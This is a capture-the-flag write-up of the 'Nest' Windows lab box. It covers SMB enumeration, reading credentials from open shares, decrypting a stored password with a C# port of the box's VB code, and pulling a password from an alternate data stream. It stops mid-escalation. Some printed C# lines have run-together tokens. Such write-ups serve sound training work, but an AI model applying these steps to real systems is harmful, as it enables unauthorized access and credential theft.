

---
search:
  exclude: true
---
# Nest Writeup

## Introduction :

Nest is an easy windows box released back in january 2020.

## **Part 1 : Initial Enumeration**

As always we begin our Enumeration using **Nmap** to enumerate opened ports. We will be using the flags **-sC** for default scripts and **-sV** to enumerate versions.
    
    
    [ 10.10.14.13/23 ] [ /dev/pts/1 ] [Nextcloud/blog]
    → sudo nmap -vvv -p- 10.10.10.178 --max-retries 0 -Pn --min-rate=500 2>/dev/null | grep Discovered
    [sudo] password for nothing:
    Discovered open port 445/tcp on 10.10.10.178
    Discovered open port 4386/tcp on 10.10.10.178
    
    [ 10.10.14.13/23 ] [ /dev/pts/1 ] [Nextcloud/blog]
    → nmap -sCV -p445,4386 10.10.10.178 -Pn
    Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
    Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-28 08:30 CEST
    Nmap scan report for 10.10.10.178
    Host is up (0.032s latency).
    
    PORT     STATE SERVICE       VERSION
    445/tcp  open  microsoft-ds?
    4386/tcp open  unknown
    | fingerprint-strings:
    |   DNSStatusRequestTCP, DNSVersionBindReqTCP, Kerberos, LANDesk-RC, LDAPBindReq, LDAPSearchReq, LPDString, NULL, RPCCheck, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServer, TerminalServerCookie, X11Probe:
    |     Reporting Service V1.2
    |   FourOhFourRequest, GenericLines, GetRequest, HTTPOptions, RTSPRequest, SIPOptions:
    |     Reporting Service V1.2
    |     Unrecognised command
    |   Help:
    |     Reporting Service V1.2
    |     This service allows users to run queries against databases using the legacy HQK format
    |     AVAILABLE COMMANDS ---
    |     LIST
    |     SETDIR <****Directory_Name>
    |     RUNQUERY <****Query_ID>
    |     DEBUG <****Password>
    |_    HELP <****Command>
    1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
    SF-Port4386-TCP:V=7.91%I=7%D=5/28%Time=60B08DFE%P=x86_64-pc-linux-gnu%r(NU
    SF:LL,21,"\r\nHQK\x20Reporting\x20Service\x20V1\.2\r\n\r\n>")%r(GenericLin
    SF:es,3A,"\r\nHQK\x20Reporting\x20Service\x20V1\.2\r\n\r\n>\r\nUnrecognise
    SF:d\x20command\r\n>")%r(GetRequest,3A,"\r\nHQK\x20Reporting\x20Service\x2
    SF:0V1\.2\r\n\r\n>\r\nUnrecognised\x20command\r\n>")%r(HTTPOptions,3A,"\r\
    SF:nHQK\x20Reporting\x20Service\x20V1\.2\r\n\r\n>\r\nUnrecognised\x20comma
    SF:nd\r\n>")%r(RTSPRequest,3A,"\r\nHQK\x20Reporting\x20Service\x20V1\.2\r\
    SF:n\r\n>\r\nUnrecognised\x20command\r\n>")%r(RPCCheck,21,"\r\nHQK\x20Repo
    SF:rting\x20Service\x20V1\.2\r\n\r\n>")%r(DNSVersionBindReqTCP,21,"\r\nHQK
    SF:\x20Reporting\x20Service\x20V1\.2\r\n\r\n>")%r(DNSStatusRequestTCP,21,"
    SF:\r\nHQK\x20Reporting\x20Service\x20V1\.2\r\n\r\n>")%r(Help,F2,"\r\nHQK\
    SF:x20Reporting\x20Service\x20V1\.2\r\n\r\n>\r\nThis\x20service\x20allows\
    SF:x20users\x20to\x20run\x20queries\x20against\x20databases\x20using\x20th
    SF:e\x20legacy\x20HQK\x20format\r\n\r\n---\x20AVAILABLE\x20COMMANDS\x20---
    SF:\r\n\r\nLIST\r\nSETDIR\x20 <****Directory_Name>\r\nRUNQUERY\x20 <****Query_ID>\r\
    SF:nDEBUG\x20 <****Password>\r\nHELP\x20 \r\n>")%r(SSLSessionReq,21,"\r
    SF:\nHQK\x20Reporting\x20Service\x20V1\.2\r\n\r\n>")%r(TerminalServerCooki
    SF:e,21,"\r\nHQK\x20Reporting\x20Service\x20V1\.2\r\n\r\n>")%r(TLSSessionR
    SF:eq,21,"\r\nHQK\x20Reporting\x20Service\x20V1\.2\r\n\r\n>")%r(Kerberos,2
    SF:1,"\r\nHQK\x20Reporting\x20Service\x20V1\.2\r\n\r\n>")%r(SMBProgNeg,21,
    SF:"\r\nHQK\x20Reporting\x20Service\x20V1\.2\r\n\r\n>")%r(X11Probe,21,"\r\
    SF:nHQK\x20Reporting\x20Service\x20V1\.2\r\n\r\n>")%r(FourOhFourRequest,3A
    SF:,"\r\nHQK\x20Reporting\x20Service\x20V1\.2\r\n\r\n>\r\nUnrecognised\x20
    SF:command\r\n>")%r(LPDString,21,"\r\nHQK\x20Reporting\x20Service\x20V1\.2
    SF:\r\n\r\n>")%r(LDAPSearchReq,21,"\r\nHQK\x20Reporting\x20Service\x20V1\.
    SF:2\r\n\r\n>")%r(LDAPBindReq,21,"\r\nHQK\x20Reporting\x20Service\x20V1\.2
    SF:\r\n\r\n>")%r(SIPOptions,3A,"\r\nHQK\x20Reporting\x20Service\x20V1\.2\r
    SF:\n\r\n>\r\nUnrecognised\x20command\r\n>")%r(LANDesk-RC,21,"\r\nHQK\x20R
    SF:eporting\x20Service\x20V1\.2\r\n\r\n>")%r(TerminalServer,21,"\r\nHQK\x2
    SF:0Reporting\x20Service\x20V1\.2\r\n\r\n>");
    
    Host script results:
    |_clock-skew: 7m38s
    | smb2-security-mode:
    |   2.02:
    |_    Message signing enabled but not required
    | smb2-time:
    |   date: 2021-05-28T06:40:33
    |_  start_date: 2021-05-28T06:32:49
    
    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 198.72 seconds
    
    

## **Part 2 : Getting User Access**

Our nmap scan picked up port 445 so let's investigate it:
    
    
    [ 10.10.14.13/23 ] [ /dev/pts/1 ] [Nextcloud/blog]
    → smbclient -L \\\\10.10.10.178
    Enter WORKGROUP\nothing's password:
    
            Sharename       Type      Comment
            ---------       ----      -------
            ADMIN$          Disk      Remote Admin
            C$              Disk      Default share
            Data            Disk
            IPC$            IPC       Remote IPC
            Secure$         Disk
            Users           Disk
    SMB1 disabled -- no workgroup available
    
    [ 10.10.14.13/23 ] [ /dev/pts/1 ] [Nextcloud/blog]
    → smbmap -H 10.10.10.178 -u anonymous -r --depth 5
    [+] Guest session       IP: 10.10.10.178:445    Name: 10.10.10.178
            Disk                                                    Permissions     Comment
            ----                                                    -----------     -------
            ADMIN$                                                  NO ACCESS       Remote Admin
            C$                                                      NO ACCESS       Default share
            Data                                                    READ ONLY
            .\Data\*
            dr--r--r--                0 Thu Aug  8 00:53:46 2019    .
            dr--r--r--                0 Thu Aug  8 00:53:46 2019    ..
            dr--r--r--                0 Thu Aug  8 00:58:07 2019    IT
            dr--r--r--                0 Mon Aug  5 23:53:41 2019    Production
            dr--r--r--                0 Mon Aug  5 23:53:50 2019    Reports
            dr--r--r--                0 Wed Aug  7 21:07:51 2019    Shared
            IPC$                                                    NO ACCESS       Remote IPC
            Secure$                                                 NO ACCESS
            Users                                                   READ ONLY
            .\Users\*
            dr--r--r--                0 Sun Jan 26 00:04:21 2020    .
            dr--r--r--                0 Sun Jan 26 00:04:21 2020    ..
            dr--r--r--                0 Fri Aug  9 17:08:23 2019    Administrator
            dr--r--r--                0 Sun Jan 26 08:21:44 2020    C.Smith
            dr--r--r--                0 Thu Aug  8 19:03:29 2019    L.Frost
            dr--r--r--                0 Thu Aug  8 19:02:56 2019    R.Thompson
            dr--r--r--                0 Thu Aug  8 00:56:02 2019    TempUser
    

Here it looks like the Data sgare seems to be accessible anonymously. So we can recursively list the contents of that share using smbclient:
    
    
    [ 10.10.14.13/23 ] [ /dev/pts/1 ] [Nextcloud/blog]
    → smbclient \\\\10.10.10.178\\Data
    Enter WORKGROUP\nothing's password:
    Try "help" to get a list of possible commands.
    smb: \> recurse on
    smb: \> ls
      .                                   D        0  Thu Aug  8 00:53:46 2019
      ..                                  D        0  Thu Aug  8 00:53:46 2019
      IT                                  D        0  Thu Aug  8 00:58:07 2019
      Production                          D        0  Mon Aug  5 23:53:38 2019
      Reports                             D        0  Mon Aug  5 23:53:44 2019
      Shared                              D        0  Wed Aug  7 21:07:51 2019
    
    \IT
    NT_STATUS_ACCESS_DENIED listing \IT\*
    
    \Production
    NT_STATUS_ACCESS_DENIED listing \Production\*
    
    \Reports
    NT_STATUS_ACCESS_DENIED listing \Reports\*
    
    \Shared
      .                                   D        0  Wed Aug  7 21:07:51 2019
      ..                                  D        0  Wed Aug  7 21:07:51 2019
      Maintenance                         D        0  Wed Aug  7 21:07:32 2019
      Templates                           D        0  Wed Aug  7 21:08:07 2019
    
    \Shared\Maintenance
      .                                   D        0  Wed Aug  7 21:07:32 2019
      ..                                  D        0  Wed Aug  7 21:07:32 2019
      Maintenance Alerts.txt              A       48  Tue Aug  6 01:01:44 2019
    
    \Shared\Templates
      .                                   D        0  Wed Aug  7 21:08:07 2019
      ..                                  D        0  Wed Aug  7 21:08:07 2019
      HR                                  D        0  Wed Aug  7 21:08:01 2019
      Marketing                           D        0  Wed Aug  7 21:08:06 2019
    
    \Shared\Templates\HR
      .                                   D        0  Wed Aug  7 21:08:01 2019
      ..                                  D        0  Wed Aug  7 21:08:01 2019
      Welcome Email.txt                   A      425  Thu Aug  8 00:55:36 2019
    
    \Shared\Templates\Marketing
      .                                   D        0  Wed Aug  7 21:08:06 2019
      ..                                  D        0  Wed Aug  7 21:08:06 2019
    
    smb: \> cd \Shared\Templates\HR
    smb: \Shared\Templates\HR\> ls
      .                                   D        0  Wed Aug  7 21:08:01 2019
      ..                                  D        0  Wed Aug  7 21:08:01 2019
      Welcome Email.txt                   A      425  Thu Aug  8 00:55:36 2019
    
                    10485247 blocks of size 4096. 6543390 blocks available
    
    smb: \Shared\Templates\HR\> mget "Welcome Email.txt"
    Get file Welcome Email.txt? y
    getting file \Shared\Templates\HR\Welcome Email.txt of size 425 as Welcome Email.txt (3.2 KiloBytes/sec) (average 3.2 KiloBytes/sec)
    
    
    [ 10.10.14.13/23 ] [ /dev/pts/1 ] [~/HTB/Nest]
    → cat Welcome\ Email.txt
    We would like to extend a warm welcome to our newest member of staff,  
    
    You will find your home folder in the following location:
    \\HTB-NEST\Users\
    
    If you have any issues accessing specific services or workstations, please inform the
    IT department and use the credentials below until all systems have been set up for you.
    
    Username: TempUser
    Password: welcome2019
    
    
    Thank you
    HR
    

Here we get credentials: **TempUser:welcome2019** So let's run smbmap once again to enumerate the shares:
    
    
    [ 10.10.14.13/23 ] [ /dev/pts/1 ] [~/HTB/Nest]
    → smbmap -u Tempuser -p welcome2019 -H 10.10.10.178
    [+] IP: 10.10.10.178:445        Name: 10.10.10.178
            Disk                                                    Permissions     Comment
            ----                                                    -----------     -------
            ADMIN$                                                  NO ACCESS       Remote Admin
            C$                                                      NO ACCESS       Default share
            Data                                                    READ ONLY
            IPC$                                                    NO ACCESS       Remote IPC
            Secure$                                                 READ ONLY
            Users                                                   READ ONLY
    

Now as we explore the shares with the tempuser we can access xml files for example:
    
    
    [ 10.10.14.13/23 ] [ /dev/pts/1 ] [~/HTB/Nest]
    → smbmap -u Tempuser -p welcome2019 -H 10.10.10.178 -R 'Data' -A xml
    [+] IP: 10.10.10.178:445        Name: 10.10.10.178
    [+] Starting search for files matching 'xml' on share Data.
    [+] Match found! Downloading: Data\IT\Configs\Adobe\editing.xml
    [+] Match found! Downloading: Data\IT\Configs\Adobe\projects.xml
    [+] Match found! Downloading: Data\IT\Configs\Adobe\settings.xml
    [+] Match found! Downloading: Data\IT\Configs\Atlas\Temp.XML
    [+] Match found! Downloading: Data\IT\Configs\Microsoft\Options.xml
    [+] Match found! Downloading: Data\IT\Configs\NotepadPlusPlus\config.xml
    [+] Match found! Downloading: Data\IT\Configs\NotepadPlusPlus\shortcuts.xml
    [+] Match found! Downloading: Data\IT\Configs\RU Scanner\RU_config.xml
    
    [ 10.10.14.13/23 ] [ /dev/pts/1 ] [~/HTB/Nest]
    → ls -lash
    total 52K
    4.0K drwxr-xr-x 2 nothing nothing 4.0K May 28 09:29  .
    4.0K drwxr-xr-x 7 nothing nothing 4.0K May 28 09:02  ..
    4.0K -rw-r--r-- 1 nothing nothing  246 May 28 09:29  10.10.10.178-Data_IT_Configs_Adobe_editing.xml
    4.0K -rw-r--r-- 1 nothing nothing  258 May 28 09:29  10.10.10.178-Data_IT_Configs_Adobe_projects.xml
    4.0K -rw-r--r-- 1 nothing nothing 1.3K May 28 09:29  10.10.10.178-Data_IT_Configs_Adobe_settings.xml
    4.0K -rw-r--r-- 1 nothing nothing 1.4K May 28 09:29  10.10.10.178-Data_IT_Configs_Atlas_Temp.XML
    8.0K -rw-r--r-- 1 nothing nothing 4.5K May 28 09:29  10.10.10.178-Data_IT_Configs_Microsoft_Options.xml
    8.0K -rw-r--r-- 1 nothing nothing 6.3K May 28 09:29  10.10.10.178-Data_IT_Configs_NotepadPlusPlus_config.xml
    4.0K -rw-r--r-- 1 nothing nothing 2.1K May 28 09:29  10.10.10.178-Data_IT_Configs_NotepadPlusPlus_shortcuts.xml
    4.0K -rw-r--r-- 1 nothing nothing  270 May 28 09:29 '10.10.10.178-Data_IT_Configs_RU Scanner_RU_config.xml'
    4.0K -rw-r--r-- 1 nothing nothing  425 May 28 09:02 'Welcome Email.txt'
    
    

Let's check if there is any sensitive information in the xml files we collected:
    
    
    [ 10.10.14.13/23 ] [ /dev/pts/1 ] [~/HTB/Nest]
    → vim 10.10.10.178-Data_IT_Configs_Adobe_settings.xml
    
    [ 10.10.14.13/23 ] [ /dev/pts/1 ] [~/HTB/Nest]
    → grep -i password *.xml
    10.10.10.178-Data_IT_Configs_RU Scanner_RU_config.xml:  fTEzAfYDoz1YzkqhQkH6GQFYKp1XY5hm7bjOP86yYxE=
    [ 10.10.14.13/23 ] [ /dev/pts/1 ] [~/HTB/Nest]
    → cat 10.10.10.178-Data_IT_Configs_RU\ Scanner_RU_config.xml
    <****?xml version="1.0"?> <****ConfigFile xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema"> <****Port>389 <****/Port> <****Username>c.smith <****/Username> <****Password>fTEzAfYDoz1YzkqhQkH6GQFYKp1XY5hm7bjOP86yYxE= <****/Password> <****/ConfigFile>%

So here it looks like that the password for the user **c.smith** is encrypted. Now what we should look for is the Secure share in the xml files, and we stumble upon the **NotePadPlusPlus** config file:
    
    
    [ 10.10.14.13/23 ] [ /dev/pts/1 ] [~/HTB/Nest]
    → grep -i 'Secure\$' *.xml
    10.10.10.178-Data_IT_Configs_NotepadPlusPlus_config.xml:         <****File filename="\\HTB-NEST\Secure$\IT\Carl\Temp.txt" />

Now we're hinted towards a Temp.txt file, so let's get it:
    
    
    [ 10.10.14.13/23 ] [ /dev/pts/1 ] [~/HTB/Nest]
    → smbmap -u Tempuser -p welcome2019 -H 10.10.10.178 -R 'Secure$\IT\Carl'
    [+] IP: 10.10.10.178:445        Name: 10.10.10.178
            Disk                                                    Permissions     Comment
            ----                                                    -----------     -------
            Secure$                                                 READ ONLY
            .\Secure$IT\Carl\*
            dr--r--r--                0 Wed Aug  7 21:42:14 2019    .
            dr--r--r--                0 Wed Aug  7 21:42:14 2019    ..
            dr--r--r--                0 Wed Aug  7 21:44:00 2019    Docs
            dr--r--r--                0 Tue Aug  6 15:45:47 2019    Reports
            dr--r--r--                0 Tue Aug  6 16:41:55 2019    VB Projects
            .\Secure$IT\Carl\Docs\*
            dr--r--r--                0 Wed Aug  7 21:44:00 2019    .
            dr--r--r--                0 Wed Aug  7 21:44:00 2019    ..
            fr--r--r--               56 Wed Aug  7 21:44:16 2019    ip.txt
            fr--r--r--               73 Wed Aug  7 21:43:46 2019    mmc.txt
            .\Secure$IT\Carl\VB Projects\*
            dr--r--r--                0 Tue Aug  6 16:41:55 2019    .
            dr--r--r--                0 Tue Aug  6 16:41:55 2019    ..
            dr--r--r--                0 Tue Aug  6 16:41:53 2019    Production
            dr--r--r--                0 Tue Aug  6 16:47:41 2019    WIP
            .\Secure$IT\Carl\VB Projects\WIP\*
            dr--r--r--                0 Tue Aug  6 16:47:41 2019    .
            dr--r--r--                0 Tue Aug  6 16:47:41 2019    ..
            dr--r--r--                0 Fri Aug  9 17:36:45 2019    RU
            .\Secure$IT\Carl\VB Projects\WIP\RU\*
            dr--r--r--                0 Fri Aug  9 17:36:45 2019    .
            dr--r--r--                0 Fri Aug  9 17:36:45 2019    ..
            dr--r--r--                0 Thu Aug  8 00:05:54 2019    RUScanner
            fr--r--r--              871 Fri Aug  9 17:36:35 2019    RUScanner.sln
            .\Secure$IT\Carl\VB Projects\WIP\RU\RUScanner\*
            dr--r--r--                0 Thu Aug  8 00:05:54 2019    .
            dr--r--r--                0 Thu Aug  8 00:05:54 2019    ..
            dr--r--r--                0 Wed Aug  7 22:00:11 2019    bin
            fr--r--r--              772 Thu Aug  8 00:05:09 2019    ConfigFile.vb
            fr--r--r--              279 Thu Aug  8 00:05:44 2019    Module1.vb
            dr--r--r--                0 Wed Aug  7 22:00:11 2019    My Project
            dr--r--r--                0 Wed Aug  7 22:00:11 2019    obj
            fr--r--r--             4828 Fri Aug  9 17:38:30 2019    RU Scanner.vbproj
            fr--r--r--              143 Wed Aug  7 22:00:28 2019    RU Scanner.vbproj.user
            fr--r--r--              133 Thu Aug  8 00:05:58 2019    SsoIntegration.vb
            fr--r--r--             4888 Thu Aug  8 00:06:03 2019    Utils.vb
    

And we were able to list the contents, the folder contains a Visual Basic project called RUScanner. so let's mount the share locally to examine the files:
    
    
    [ 10.10.14.13/23 ] [ /dev/pts/1 ] [~/HTB/Nest]
    → sudo mkdir /mnt/Data
    [sudo] password for nothing:
    
    [ 10.10.14.13/23 ] [ /dev/pts/1 ] [~/HTB/Nest]
    → sudo mount -t cifs -o ro,username=TempUser,password=welcome2019 '//10.10.10.178/Secure$' /mnt/Data/
    
    [ 10.10.14.13/23 ] [ /dev/pts/1 ] [~/HTB/Nest]
    → ls /mnt/Data
    Finance  HR  IT
    
    ┌──(root💀nowhere)-[/mnt/Data/IT]
    └─# cd /mnt/Data/IT/Carl/VB\ Projects/WIP/RU/RUScanner                                                                 130 ⨯
    
    ┌──(root💀nowhere)-[/mnt/…/VB Projects/WIP/RU/RUScanner]
    └─# ls -lash
    total 33K
    4.0K drwxr-xr-x 2 root root 4.0K Aug  8  2019  .
    4.0K drwxr-xr-x 2 root root 4.0K Aug  9  2019  ..
       0 drwxr-xr-x 2 root root    0 Aug  7  2019  bin
    4.0K -rwxr-xr-x 1 root root  772 Aug  8  2019  ConfigFile.vb
     512 -rwxr-xr-x 1 root root  279 Aug  8  2019  Module1.vb
       0 drwxr-xr-x 2 root root    0 Aug  7  2019 'My Project'
       0 drwxr-xr-x 2 root root    0 Aug  7  2019  obj
    8.0K -rwxr-xr-x 1 root root 4.8K Aug  9  2019 'RU Scanner.vbproj'
     512 -rwxr-xr-x 1 root root  143 Aug  6  2019 'RU Scanner.vbproj.user'
    4.0K -rwxr-xr-x 1 root root  133 Aug  8  2019  SsoIntegration.vb
    8.0K -rwxr-xr-x 1 root root 4.8K Aug  7  2019  Utils.vb
    

And here the important file is Utils.vb:
    
    
    Imports System.Text
    Imports System.Security.Cryptography
    Public Class Utils
    
        Public Shared Function GetLogFilePath() As String
            Return IO.Path.Combine(Environment.CurrentDirectory, "Log.txt")
        End Function
    
    
    
    
        Public Shared Function DecryptString(EncryptedString As String) As String
            If String.IsNullOrEmpty(EncryptedString) Then
                Return String.Empty
            Else
                Return Decrypt(EncryptedString, "N3st22", "88552299", 2, "464R5DFA5DL6LE28", 256)
            End If
        End Function
    
        Public Shared Function EncryptString(PlainString As String) As String
            If String.IsNullOrEmpty(PlainString) Then
                Return String.Empty
            Else
                Return Encrypt(PlainString, "N3st22", "88552299", 2, "464R5DFA5DL6LE28", 256)
            End If
        End Function
    
        Public Shared Function Encrypt(ByVal plainText As String, _
                                       ByVal passPhrase As String, _
                                       ByVal saltValue As String, _
                                        ByVal passwordIterations As Integer, _
                                       ByVal initVector As String, _
                                       ByVal keySize As Integer) _
                               As String
    
            Dim initVectorBytes As Byte() = Encoding.ASCII.GetBytes(initVector)
            Dim saltValueBytes As Byte() = Encoding.ASCII.GetBytes(saltValue)
            Dim plainTextBytes As Byte() = Encoding.ASCII.GetBytes(plainText)
            Dim password As New Rfc2898DeriveBytes(passPhrase, _
                                               saltValueBytes, _
                                               passwordIterations)
    

Basically here, we see that the class contains methods to encrypt and decrypt passwords. We can use the decryptString() function to decrypt the password gained earlier. As the code uses .NET classes, it can be rewritten in any .NET based language, therefore it can be ported to C#, and compiled on linux thanks to [mono](https://www.mono-project.com/download/stable/#download-lin-ubuntu), so let's install it:
    
    
    [ 10.10.14.13/23 ] [ /dev/pts/1 ] [~/HTB/Nest]
    → apt search mono-devel
    Sorting... Done
    Full Text Search... Done
    mono-devel/kali-rolling 6.8.0.105+dfsg-3 all
      Mono development tools
    
    [ 10.10.14.13/23 ] [ /dev/pts/1 ] [~/HTB/Nest]
    → apt install mono-devel
    
    

Now that we know the sourcecode, let's write the decrypt() function in C#, to which we will pass the encrypted password we found earlier:
    
    
    [ 10.10.14.13/23 ] [ /dev/pts/6 ] [~/HTB/Nest]
    → vim decrypt.cs
    
    
    
    
    
    using System;
    using System.IO;
    using System.Text;
    using System.Security.Cryptography;
    namespace Dec {
        class Decryptor{
            public static void Main(){
                var pt = Decrypt("fTEzAfYDoz1YzkqhQkH6GQFYKp1XY5hm7bjOP86yYxE=", "N3st22","88552299", 2, "464R5DFA5DL6LE28", 256);
                Console.WriteLine("PlainText: " + pt);
            }
            public static String Decrypt(String cipherText, String passPhrase, String saltValue, int passwordIterations, String initVector, int keySize ) {
                var initVectorBytes=Encoding.ASCII.GetBytes(initVector);
                var saltValueBytes=Encoding.ASCII.GetBytes(saltValue);
                var cipherTextBytes=Convert.FromBase64String(cipherText);
                var password=newRfc2898DeriveBytes(passPhrase, saltValueBytes,passwordIterations);
                var keyBytes=password.GetBytes(keySize/8);
                var symmetricKey=newAesCryptoServiceProvider();
                symmetricKey.Mode=CipherMode.CBC;
                var decryptor=symmetricKey.CreateDecryptor(keyBytes, initVectorBytes);
                var memoryStream=newMemoryStream(cipherTextBytes);
                var cryptoStream=newCryptoStream(memoryStream, decryptor,CryptoStreamMode.Read);
                var plainTextBytes=newbyte[cipherTextBytes.Length];
                var decryptedByteCount=cryptoStream.Read(plainTextBytes, 0,plainTextBytes.Length);
                memoryStream.Close();
                cryptoStream.Close();
                varplainText=Encoding.ASCII.GetString(plainTextBytes, 0,decryptedByteCount);
                returnplainText;
            }
    
        }
    }
    
    
    
    [ 10.10.14.13/23 ] [ /dev/pts/1 ] [~/HTB/Nest]
    → mcs decrypt.cs
    
    [ 10.10.14.13/23 ] [ /dev/pts/1 ] [~/HTB/Nest]
    → ./decrypt.exe
    Plaintext: xRxRxPANCAK3SxRxRx 
    

And we decrypted **c.smith** 's password ! **xRxRxPANCAK3SxRxRx**
    
    
    [ 10.10.14.13/23 ] [ /dev/pts/6 ] [~/HTB/Nest]
    → sudo umount /mnt/Data
    [sudo] password for nothing:
    
    [ 10.10.14.13/23 ] [ /dev/pts/6 ] [~/HTB/Nest]
    → smbclient -U c.smith //10.10.10.178/Users
    Enter WORKGROUP\c.smith's password: xRxRxPANCAK3SxRxRx
    Try "help" to get a list of possible commands.
    smb: \> cd c.smith
    smb: \c.smith\> ls
      .                                   D        0  Sun Jan 26 08:21:44 2020
      ..                                  D        0  Sun Jan 26 08:21:44 2020
      HQK Reporting                       D        0  Fri Aug  9 01:06:17 2019
      user.txt                            A       32  Fri Aug  9 01:05:24 2019
    
    smb: \c.smith\> get user.txt
    getting file \c.smith\user.txt of size 32 as user.txt (0.2 KiloBytes/sec) (average 0.2 KiloBytes/sec)
    
    smb: \c.smith\>
    
    [ 10.10.14.13/23 ] [ /dev/pts/1 ] [~/HTB/Nest]
    → cat user.txt
    cfXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    
    

And we managed to get the user flag!

## **Part 3 : Getting Root Access**

Now in order to privesc, we need to take a look at the HQK Reporting folder:
    
    
    [ 10.10.14.13/23 ] [ /dev/pts/6 ] [~/HTB/Nest]
    → smbclient -U c.smith //10.10.10.178/Users
    Enter WORKGROUP\c.smith's password:
    Try "help" to get a list of possible commands.
    
    smb: \> ls
      .                                   D        0  Sun Jan 26 00:04:21 2020
      ..                                  D        0  Sun Jan 26 00:04:21 2020
      Administrator                       D        0  Fri Aug  9 17:08:23 2019
      C.Smith                             D        0  Sun Jan 26 08:21:44 2020
      L.Frost                             D        0  Thu Aug  8 19:03:01 2019
      R.Thompson                          D        0  Thu Aug  8 19:02:50 2019
      TempUser                            D        0  Thu Aug  8 00:55:56 2019
    
                    10485247 blocks of size 4096. 6543251 blocks available
    
    smb: \> cd c.smith
    
    smb: \c.smith\> ls
      .                                   D        0  Sun Jan 26 08:21:44 2020
      ..                                  D        0  Sun Jan 26 08:21:44 2020
      HQK Reporting                       D        0  Fri Aug  9 01:06:17 2019
      user.txt                            A       32  Fri Aug  9 01:05:24 2019
    
                    10485247 blocks of size 4096. 6543251 blocks available
    
    smb: \c.smith\> cd "HQK Reporting"
    
    smb: \c.smith\HQK Reporting\> ls
      .                                   D        0  Fri Aug  9 01:06:17 2019
      ..                                  D        0  Fri Aug  9 01:06:17 2019
      AD Integration Module               D        0  Fri Aug  9 14:18:42 2019
      Debug Mode Password.txt             A        0  Fri Aug  9 01:08:17 2019
      HQK_Config_Backup.xml               A      249  Fri Aug  9 01:09:05 2019
    
                    10485247 blocks of size 4096. 6543251 blocks available
    
    smb: \c.smith\HQK Reporting\> allinfo "Debug Mode Password.txt"
    altname: DEBUGM~1.TXT
    create_time:    Fri Aug  9 01:06:12 AM 2019 CEST
    access_time:    Fri Aug  9 01:06:12 AM 2019 CEST
    write_time:     Fri Aug  9 01:08:17 AM 2019 CEST
    change_time:    Fri Aug  9 01:08:17 AM 2019 CEST
    attributes: A (20)
    stream: [::$DATA], 0 bytes
    stream: [:Password:$DATA], 15 bytes
    
    smb: \c.smith\HQK Reporting\>
    

Now here we see something interesting, we get hinted at a file called **Debug Mode Password.txt** , and it has file attributes, or Alternate Data Streams (ADS) attached to it. So let's get the file itself: 
    
    
    smb: \c.smith\HQK Reporting\> get "Debug Mode Password.txt:Password"
    getting file \c.smith\HQK Reporting\Debug Mode Password.txt:Password of size 15 as Debug Mode Password.txt:Password (0.1 KiloBytes/sec) (average 0.1 KiloBytes/sec)
    smb: \c.smith\HQK Reporting\> exit
    
    [ 10.10.14.13/23 ] [ /dev/pts/6 ] [~/HTB/Nest]
    → ls -lash Debug\ Mode\ Password.txt:Password
    4.0K -rw-r--r-- 1 nothing nothing 15 May 28 13:05 'Debug Mode Password.txt:Password'
    
    [ 10.10.14.13/23 ] [ /dev/pts/6 ] [~/HTB/Nest]
    → cat Debug\ Mode\ Password.txt:Password
    WBQ201953D8w
    

We're going to save it because we may need it later on. Let's download the xml file and binary from teh HQK folder:
    
    
    [ 10.10.14.13/23 ] [ /dev/pts/6 ] [~/HTB/Nest]
    → smbclient -U c.smith //10.10.10.178/Users
    Enter WORKGROUP\c.smith's password: xRxRxPANCAK3SxRxRx
    Try "help" to get a list of possible commands.
    
    smb: \> cd c.smith
    
    smb: \c.smith\> cd "HQK Reporting"
    
    smb: \c.smith\HQK Reporting\> ls
      .                                   D        0  Fri Aug  9 01:06:17 2019
      ..                                  D        0  Fri Aug  9 01:06:17 2019
      AD Integration Module               D        0  Fri Aug  9 14:18:42 2019
      Debug Mode Password.txt             A        0  Fri Aug  9 01:08:17 2019
      HQK_Config_Backup.xml               A      249  Fri Aug  9 01:09:05 2019
    
                    10485247 blocks of size 4096. 6543251 blocks available
    
    smb: \c.smith\HQK Reporting\> get HQK_Config_Backup.xml
    getting file \c.smith\HQK Reporting\HQK_Config_Backup.xml of size 249 as HQK_Config_Backup.xml (1.8 KiloBytes/sec) (average 1.8 KiloBytes/sec)
    
    smb: \c.smith\HQK Reporting\> cd "AD Integration Module"
    
    smb: \c.smith\HQK Reporting\AD Integration Module\> ls
      .                                   D        0  Fri Aug  9 14:18:42 2019
      ..                                  D        0  Fri Aug  9 14:18:42 2019
      HqkLdap.exe                         A    17408  Thu Aug  8 01:41:16 2019
    
